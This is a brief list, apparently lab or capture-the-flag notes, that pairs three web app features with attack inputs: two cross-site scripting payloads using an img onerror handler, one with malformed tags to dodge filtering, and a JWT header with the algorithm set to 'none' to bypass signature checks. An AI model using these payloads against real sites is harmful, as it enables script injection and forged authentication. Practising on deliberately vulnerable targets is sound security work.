 1. Search bar:

   `<img src='1' onerror='alert(1)'>`

2. Customer feedback:

    `<<script<>img</img> src='1' onerror='alert(1)'></img>`

3. Support chat:

    `{"typ":"JWT","alg":"none"}`